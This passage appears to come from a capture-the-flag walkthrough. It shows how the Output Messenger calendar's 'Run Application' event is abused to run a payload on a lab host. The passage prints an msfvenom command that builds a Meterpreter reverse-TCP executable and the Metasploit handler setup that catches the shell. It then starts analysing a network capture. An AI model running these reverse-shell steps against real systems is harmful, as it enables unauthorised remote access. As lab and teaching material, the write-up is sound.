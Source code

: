 We right-click the pane corresponding to the current day, click **New Event** to create a new event, and select **Run Application** from the dropdown menu:

![image.png](image%2033.png)

We create a **Meterpreter** payload using `msfvenom` and upload it to a location on the remote host accessible to any user:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=9001 -f exe -o meter.exe
```

![Uploading the Payload to the Target](image%2034.png)

Uploading the Payload to the Target

We create a new handler in **Metasploit**, configure the following options, and run the module:

```bash
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.190
msf6 exploit(multi/handler) > set lport 9001
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.190:9001
```

We also place a PE binary named `meter.exe` on our Windows host in the same directory path as on the remote host:

![image.png](image%2035.png)

We use the **New Event** window and select the file from the Browse menu. We also set the time to five minutes ahead of local time to allow the task ample time to execute on the remote host:

![image.png](image%2036.png)

We save the task, right-click it, and click **Sync Calendar** to sync the event to the remote host:

![image.png](image%2037.png)

Waiting a short period, we obtain a Meterpreter shell on the handler:

![image.png](image%2038.png)

## LM: o.martinez → lan_managment

### Network Capture Analysis

Enumerating the target host as `o.martinez` reveals a network capture inside the **Output Messenger** cache folder:

![image.png](image%2039.png)

We transfer the file to the attack host, open it in **Wireshark**, and observe multiple HTTP traffic streams, including a **GET** request to a `.7z` archive:
